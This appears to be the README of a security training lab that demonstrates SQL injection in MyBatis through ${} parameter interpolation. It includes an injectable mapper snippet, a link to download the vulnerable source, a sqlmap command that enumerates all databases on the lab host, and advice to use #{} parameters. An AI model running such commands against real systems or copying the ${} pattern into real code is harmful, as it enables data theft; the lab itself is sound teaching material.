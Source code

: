 # Mybatis sql注入漏洞环境
### 测试环境
本环境用mybatis演示了使用$符号,而不是#符号时,引起的sql注入漏洞.

### 漏洞原理
```
<select id="findLogByUserId" parameterType="long" resultMap="logResultMap">
    select * from t_user_log where user_id=#{userId} and action=#{action} order by id desc limit ${1}
</select>
```
如果${1}可控，就存在安全问题

在mybatis中，”${xxx}”这样格式的参数会直接参与sql编译，从而不能避免注入攻击。但涉及到动态表名和列名时，只能使用“${xxx}”这样的参数格式，所以，这样的参数需要我们在代码中手工进行处理来防止注入。

ps:更多细节查阅参考资料

环境源码下载:[vuln_mybatis.tar.gz](http://{{ip}}:{{webport}}/vuln/mybatis_sqli/vuln_mybatis.tar.gz)

### 漏洞利用
下载sqlmap利用工具,利用sqlmap获得mysql所有的数据库名
```
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
python sqlmap.py --batch -u "http://{{ip}}:{{port[0]}}/getUserInfoOrder/name*" --dbs
```

### 漏洞防御
    在编写mybatis的映射语句时，尽量采用“#{xxx}”这样的格式。若不得不使用“${xxx}”这样的参数，要手工地做好过滤工作，来防止sql注入攻击。
### 参考资料
[审计mybatis的sql注入](http://xdxd.love/2017/05/24/审计mybatis的sql注入new/)